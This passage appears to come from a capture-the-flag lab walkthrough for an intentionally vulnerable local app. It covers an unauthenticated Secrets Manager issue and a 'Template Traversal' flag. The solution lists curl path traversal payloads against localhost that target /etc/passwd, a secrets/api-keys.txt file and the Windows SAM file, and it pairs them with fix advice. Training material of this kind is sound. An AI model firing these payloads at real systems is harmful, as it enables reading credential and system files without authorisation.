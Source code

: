 ### Why This is Vulnerable
- No authentication required to access Secrets Manager
- API endpoints expose all secret names and values
- Fix: Require authentication, implement IAM policies, use service-specific credentials

---

## FLAG03: Template Traversal (200 points) - Medium

### Vulnerability
Path Traversal + Unauthenticated Serverless Function

### What You'll Learn
- Exploiting directory traversal vulnerabilities
- Understanding template injection risks
- Recognizing insecure file path handling

### Solution

Step 1: Generate a report with path traversal
```bash
curl -X POST "http://localhost:8000/api/reports/generate?template=../etc/passwd"
```

Expected Response:
```json
{
  "report": "Attempted to access restricted file",
  "flag": "flag{template_traversal}",
  "message": "PATH TRAVERSAL DETECTED! Lambda would have allowed file access.",
  "vulnerable_template": "../etc/passwd",
  "warning": "In a real scenario, this could read /etc/passwd or other sensitive files"
}
```

Flag: `flag{template_traversal}`

Other Payloads to Try:
```bash
curl -X POST "http://localhost:8000/api/reports/generate?template=../../secrets/api-keys.txt"
curl -X POST "http://localhost:8000/api/reports/generate?template=..\\..\\windows\\system32\\config\\sam"
```

### Why This is Vulnerable
- User input (`template` parameter) not validated
- Path traversal sequences (`../`) allow access to arbitrary files
- Lambda function runs without authentication
- Fix: Whitelist allowed templates, validate input, sanitize file paths

---

## FLAG04: Machine-Readable Overshare (150 points) - Easy
